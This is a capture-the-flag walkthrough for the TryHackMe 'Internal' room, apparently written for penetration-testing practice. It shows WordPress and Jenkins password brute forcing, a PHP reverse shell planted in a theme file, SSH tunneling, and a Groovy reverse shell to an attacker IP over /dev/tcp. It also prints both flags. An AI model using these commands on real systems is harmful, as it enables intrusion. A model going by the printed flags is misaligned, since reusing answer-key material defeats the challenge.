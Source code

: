 # [Internal](https://tryhackme.com/r/room/internal)

![Internal](./images/Internal.png)

[Internal](https://tryhackme.com/r/room/internal) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* WPScan
* Tuneling
* Hydra

## Task 1 - Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Ensure that you modify your hosts file to reflect internal.thm
* Any tools or techniques are permitted in this engagement
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit

**Writeups will not be accepted for this room.**

## Answer the questions below

* I understand the scope of work

## Task 2 - Deploy and Engage the Client Environment

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

### Enumeration & Exploitation

* Scan open port with Nmap

	```
	nmap $IP -p- --script vuln | tee nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Scan direcotry with Gobuster

	```
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -t 50 | tee gobuster.txt
	```

	![gobuster](./images/gobuster.png)

	We found directory `/blog`

* Try to open `http://$IP/blog`

	![web-internal](./images/web-internal.png)

	We can see on the title Internal link to `http://internal.thm/blog`

* Edit `/etc/hosts`, add target IP as `internal.thm`

	![hosts](./images/hosts.png)

	Open web page again.

	![internal-web](./images/internal-web.png)

* Scan wordpress with wpscan

	```
	wpscan --url http://internal.thm/blog -e u | tee wpscan.txt
	```

	![wpscan](./images/wpscan.png)

	We find username `admin`

* Try to brute force 

	```
	wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
	```

	![password](./images/password.png)

	We got password `admin`

* Try to login `http://internal.thm/blog/wp-login.php`

	![wp-login](./images/wp-login.png)

	![login](./images/login.png)

	![dashboard](./images/dashboard.png)

* In the web interface, go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a PHP reverse shell

	![theme](./images/theme.png)

* Setup listener on attacke machine

	```
	nc -nvlp 8888
	```

	![listener](./images/listener.png)

* Browsing to the location of this 404 page to get reverse shell

	```
	http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	```

	![revshell](./images/revshell.png)

* Now we should upgrade our shell to make it more stable with Pyhton

	```
	python -c "import pty; pty.spawn('/bin/bash')"
	```

	![pty](./images/pty.png)

* After some more searching, I found a interesting file called wp-save.txt located in the /opt directory. Opening this file, and we got the credential

	![cred](./images/cred.png)

* Change user to `aubreanna`, and get the `user.txt`

	![aubreanna](./images/aubreanna.png)

* Try to open another file `jenkins.txt`

	![jenkins](./images/jenkins.png)

	It says that an internal Jenkins service is running

	```
	netstat -tan | grep 8080
	```

	![netstat](./images/netstat.png)

	We confirm that the service is only available to localhost

* Use SSH tunneling to connect to this remote service and make it accessible on our attacker machine

	```
	ssh -L 4444:172.17.0.2:8080 aubreanna@$IP
	```

	![ssh](./images/ssh.png)

* Open `localhost:4444` on browser

	![localhost](./images/localhost.png)

* Enable Web Developer Tools, try to login with credential `admin:password`, and request resend

	![request](./images/request.png)

* Brute force login with hydra

	```
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
	```

	![hydra](./images/hydra.png)

* Login Jenkins, we can execute commands and exploit this to establish a reverse shell. 

	![dashboard-jenkins](./images/dashboard-jenkins.png)

* Setup new listener on port 5555

	![listen](./images/listen.png)

* Add script under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ and click run

	```
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.127.223/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	```

	![script](./images/script.png)

* Get the shell and root credential

	![root-cred]

* Login ssh with root credential and get the `root.txt`

	![flag](./images/flag.png)

### Answer the questions below

* User.txt Flag
	
	`THM{int3rna1_fl4g_1}`

	![user](./images/user.png)

* Root.txt Flag

	`THM{d0ck3r_d3str0y3r}`

	![root](./images/root.png)